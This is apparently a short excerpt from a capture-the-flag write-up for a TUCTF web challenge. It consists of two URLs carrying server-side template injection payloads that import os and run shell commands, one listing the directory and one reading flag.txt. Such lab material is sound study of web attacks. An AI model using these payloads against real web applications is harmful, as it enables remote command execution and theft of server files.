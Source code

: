 `http://chal.tuctf.com:30007/welcome/{% import os %}{{ os.popen("ls -lah").read() }}

and

`http://chal.tuctf.com:30007/welcome/{% import os %}{{ os.popen("cat flag.txt").read() }}`
